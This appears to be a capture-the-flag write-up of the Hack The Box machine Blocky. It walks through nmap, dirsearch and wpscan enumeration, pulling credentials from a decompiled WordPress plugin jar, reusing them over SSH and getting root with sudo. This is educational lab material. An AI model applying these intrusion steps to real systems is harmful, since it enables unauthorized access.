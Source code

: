 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Blocky
- Description: Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector: Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators.
- Difficulty: Easy 

## Initial Access

Nmap:
```bash
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I quickly attempt to login to ftp with anonymous access:
```bash
HTB ftp blocky.htb
Connected to blocky.htb.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (blocky.htb:kali): anonymous
331 Password required for anonymous
Password: 
530 Login incorrect.
ftp: Login failed
```

Going to the ip on the webpage redirects to blocky.htb, so I add it to my /etc/hosts file.

A quick dirsearch confirms this is wordpress:
```bash
HTB  dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://blocky.htb 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/blocky.htb/_24-01-19_08-50-02.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_08-50-02.log

Target: http://blocky.htb/

[08:50:02] Starting: 
[08:50:03] 301 -    0B  - /index.php  ->  http://blocky.htb/
[08:50:05] 403 -  291B  - /icons/
[08:50:07] 301 -  307B  - /wiki  ->  http://blocky.htb/wiki/
[08:50:07] 200 -  380B  - /wiki/
[08:50:07] 301 -  313B  - /wp-content  ->  http://blocky.htb/wp-content/
[08:50:07] 200 -    0B  - /wp-content/
[08:50:09] 200 -    2KB - /wp-login.php
[08:50:09] 301 -  310B  - /plugins  ->  http://blocky.htb/plugins/
[08:50:09] 200 -  745B  - /plugins/
[08:50:10] 200 -   19KB - /license.txt
[08:50:11] 301 -  314B  - /wp-includes  ->  http://blocky.htb/wp-includes/
[08:50:11] 200 -   40KB - /wp-includes/
[08:50:14] 301 -  313B  - /javascript  ->  http://blocky.htb/javascript/
[08:50:14] 403 -  296B  - /javascript/
[08:50:19] 200 -    7KB - /readme.html
```

Then I will wpscan while these are running:
```bash
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

Nothing really stood out besides the username notch.

Visiting the wiki endpoint I se its under construction:
![assets/images/2024-01-19-blocky-writeup-image-1.png](assets/images/2024-01-19-blocky-writeup-image-1.png)

I'll start a dirsearch in there, I'll also visit the plugins directory:

![assets/images/2024-01-19-blocky-writeup-image-2.png](assets/images/2024-01-19-blocky-writeup-image-2.png)

I see some files that seem interesting let me download them and analyze them.

I start by unzipping the file then decompiling the class

![assets/images/2024-01-19-blocky-writeup-image-3.png](assets/images/2024-01-19-blocky-writeup-image-3.png)

I see some credentials, let me see if they work on wordpress. 

![assets/images/2024-01-19-blocky-writeup-image-4.png](assets/images/2024-01-19-blocky-writeup-image-4.png)

Nope, so now I will try to ssh in:

```bash
myfirstplugin ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
```

Boom IA
## Privilege Escalation

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 

Sorry, try again.
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch#
```

Very simple privilege escalation

## Beyond Root

One real main issue, which is leaked credentials in jar file, if that is not needed then we should delete it from the webpage. I'll go ahead and delete the jar file. 